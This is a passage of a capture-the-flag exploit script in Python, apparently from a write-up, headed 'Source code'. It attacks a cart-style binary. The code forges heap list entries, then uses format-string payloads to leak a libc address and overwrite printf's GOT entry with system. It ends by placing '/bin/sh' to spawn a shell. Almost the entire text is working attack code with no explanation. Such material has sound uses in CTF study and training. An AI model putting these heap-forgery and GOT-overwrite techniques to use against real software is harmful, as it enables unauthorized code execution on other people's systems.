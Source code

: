 ```python
addr_heap = u64(item[0x18:])
dump("heap = " + hex(addr_heap)) # address to the name of item[1]
addr_cart0 = addr_heap - 0x70 + 0x10

# forgery name link
fake_name = b'A' * 0x18
fake_name += p64(addr_cart0)
remove_item(1)
add_name(fake_name) # addr_heap

# malloc for FSB
# cart->first --> name0 --> name1 --> name2 --> name2 --> ...
payload = b"%2$p"
payload += b'.' * (0x18 - len(payload))
payload += p64(addr_heap + 0xc0)
add_name(payload) # addr_heap + 0x60: item0
payload = str2bytes("%{}c%16$n".format(elf.got("printf")))
payload += b'.' * (0x18 - len(payload))
payload += p64(addr_heap + 0x120)
add_name(payload) # addr_heap + 0xc0: item1
payload = b'X' * 0x18
payload += p64(addr_heap + 0x120)
add_name(payload) # addr_heap + 0x120: item2, item3, ...

# cart overlap
fake_cart = b''
fake_cart += p64(addr_heap + 0x60)
fake_cart += p64(addr_heap + 0x60)
fake_cart += p64(addr_heap)
fake_cart += p64(8)
remove_item(2)
add_name(fake_cart)

# 1st FSB
addr_IO_stdfile_1_lock = int(view_order(0).split(b'.')[0], 16)
libc_base = addr_IO_stdfile_1_lock - libc.symbol('_IO_stdfile_1_lock')
addr_system = libc_base + libc.symbol("system")
dump("libc_base = " + hex(libc_base))

# malloc for FSB
a = sock.recvonce(elf.got("printf"))
remove_item(6) # last item
payload = str2bytes("%{}c%24$n".format(addr_system & 0xffffffff))
payload += b'.' * (0x18 - len(payload))
payload += p64(addr_heap + 0x1e0)
add_name(payload) # addr_heap + 0x120: item0
payload = b'A' * 0x18
payload += p64(addr_heap + 0x240)
add_name(payload) # addr_heap + 0x1e0: item1
payload = b'B' * 0x18
payload += p64(addr_heap + 0x2a0)
add_name(payload) # addr_heap + 0x240: item2
payload = b'C' * 0x18
payload += p64(addr_heap + 0x300)
add_name(payload) # addr_heap + 0x2a0: item3
payload = b'/bin/sh\x00'
add_name(payload) # addr_heap + 0x300: item3
remove_item(1)
remove_item(2)

# 2nd FSB
sock.recv()
view_order(0)
```